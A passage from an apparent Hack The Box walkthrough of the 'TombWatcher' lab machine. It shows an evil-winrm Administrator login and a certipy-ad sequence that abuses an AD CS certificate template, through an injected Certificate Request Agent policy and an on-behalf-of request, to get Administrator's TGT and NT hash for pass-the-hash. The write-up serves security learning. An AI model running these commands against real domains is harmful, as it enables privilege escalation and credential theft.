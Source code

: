 Then you can log in for the `root` flag:

```powershell
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/root]
└─$ evil-winrm -i 10.10.11.72 -u administrator -p 'Hacker123!'

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
  HTB{{REDACTED_FLAG}}
```
### Plan B

**Step 1: Request a certificate from a V1 template (with “Enrollee supplies subject”), injecting “Certificate Request Agent” Application Policy.**

```bash
certipy-ad req \
    -u 'cert_admin@tombwatcher.htb' -p 'Hacker123!' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -application-policies 'Certificate Request Agent'
```

**Step 2: Use the “agent” certificate to request a certificate on behalf of a target privileged user.**

```bash
certipy-ad req \
    -u 'cert_admin@tombwatcher.htb' -p 'Hacker123!' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'User' \
    -pfx 'cert_admin.pfx' -on-behalf-of 'tombwatcher\Administrator'
```

**Step 3: Authenticate as the privileged user using the “on-behalf-of” certificate.**

```bash
❯ certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.10.11.72'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@tombwatcher.htb'
[*]     Security Extension SID: 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Using principal: 'administrator@tombwatcher.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@tombwatcher.htb': aad3b435b51404eeaad3b435b51404ee:{{REDACTED_HASH}}
```

if it gives error, use it with `faketime`:

```bash
faketime "$(ntpdate -q 10.10.11.72 | cut -d ' ' -f 1,2)" certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.10.11.72'
```

Then you can log in with the `hash` using [Evil-WinRM](../../../3%20-%20Tags/Hacking%20Tools/Evil-WinRM.md) with `-H` flag.


Pwned !!